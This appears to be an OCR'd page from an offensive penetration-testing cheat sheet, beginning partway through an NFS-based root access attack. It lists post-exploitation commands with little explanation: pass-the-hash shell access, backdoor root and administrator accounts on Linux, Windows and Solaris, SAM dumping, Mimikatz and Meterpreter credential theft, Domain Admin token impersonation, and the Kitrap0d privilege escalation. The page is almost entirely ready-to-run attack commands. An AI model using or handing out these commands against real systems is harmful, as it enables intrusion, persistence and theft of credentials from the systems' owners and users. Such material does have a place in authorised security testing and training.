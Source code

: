 ssh-keygen
mkdir /tmp/r00t
mount -t nfs 192.168.0.10:/secret /mnt/share/
cat ~/.ssh/id_rsa.pub >> /mnt/share/root/.ssh/authorized_keys
umount /mnt/share
ssh root@192.168.0.10

__Post Exploitation__

[+] Command prompt access on Windows Host

pth-winexe -U Administrator%<hash> //<host ip> cmd.exe

[+] Add Linux User
/usr/sbin/useradd –g 0 –u 0 –o user
echo user:password | /usr/sbin/chpasswd

[+] Add Windows User
net user username password@1 /add
net localgroup administrators username /add

[+] Solaris Commands
useradd -o user
passwd user
usermod -R root user

[+] Dump remote SAM:
PwDump.exe -u localadmin 192.168.0.1

[+] Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords full

[+] Meterpreter
meterpreter> run winenum
meterpreter> use post/windows/gather/smart_hashdump

meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token TVM\domainadmin
meterpreter > add_user hacker password1 -h 192.168.0.10
meterpreter > add_group_user "Domain Admins" hacker -h 192.168.0.10

meterpreter > load mimikatz
meterpreter > wdigest
meterpreter > getWdigestPasswords
Migrate if does not work!

[+] Kitrap0d
Download vdmallowed.exe and vdmexploit.dll to victim
Run vdmallowed.exe to execute system shell

[+] Windows Information
On Windows:
ipconfig /all
systeminfo
net localgroup administrators
net view
net view /domain
